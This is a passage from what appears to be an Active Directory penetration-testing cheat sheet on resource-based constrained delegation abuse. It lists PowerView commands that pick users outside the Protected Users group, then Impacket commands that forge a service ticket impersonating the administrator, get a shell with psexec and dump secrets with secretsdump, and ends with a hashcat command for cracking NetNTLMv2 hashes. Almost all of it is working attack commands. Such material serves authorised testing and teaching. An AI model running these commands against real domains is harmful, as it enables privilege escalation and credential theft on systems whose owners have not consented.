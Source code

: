 - When computer account is created. This account can be used to enumerate the domain!

#### Check for a user to impersonate
- Preferably a user that would be admin on the machine (Check BloodHound).
- User should not be part of "Protected Users group" or accounts with the "This account is sensitive and cannot be delegated" right
```
$creds = Get-Credential
Get-DomainUser -Credential $creds -Domain <DOMAIN> -Server <DC IP> | ? {!($_.memberof -Match "Protected Users")} | select samaccountname, memberof
```

#### Impersonate any user and exploit
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right
```
getST.py <DOMAIN>/<MACHINE ACCOUNT>@<TARGET FQDN> -spn cifs/<TARGET FQDN> -impersonate administrator -dc-ip <DC IP>
Export KRB5CCNAME=administrator.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```

## Crack with Hashcat
```
hashcat -a 0 -m 5600 .\hash.txt .\wordlists\rockyou.txt -w3 -O
```
